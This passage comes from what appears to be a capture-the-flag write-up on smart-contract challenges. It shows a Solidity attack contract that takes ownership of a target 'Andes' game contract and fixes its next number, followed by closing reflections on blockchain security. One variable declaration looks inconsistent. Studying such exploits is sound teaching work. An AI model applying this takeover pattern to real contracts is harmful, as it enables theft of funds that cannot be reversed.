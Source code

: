 ```solidity
// Sets next number
contract Designator {
    constructor(address _andes, address _attack, bytes32 token) {
        // andes is the contract they deploy
        Andes andes = Andes(_andes);
        // attack is the contract we deploy, and we buy bid 0 and they're also owner
        Bidder attack = Attack(_attack);
        attack.setToken(token);
        // register ourselves
        andes.register();
        // make ourselves owner
        andes.designateOwner();
        // tell the attack contract to make us designator, and make us selector
        attack.designate(address(this));
        andes.setNextNumber(0);
        // start the round
        andes.playRound();
    }
}
```

## Closing thoughts
These two challenges really illustrate the notion that smart contracts
are not inherently more or less secure than other technology.
Security is not just a technical problem but also a social process.
Without the right coding practices and review processes, bugs can slip
through and lead to disaster.  The stakes are higher in blockchain
because there is no reverting stolen funds, as dramatically
demonstrated by recent market turmoil.  Thanks for reading!

Views expressed here are my own and not of any employer, former,
present or future.
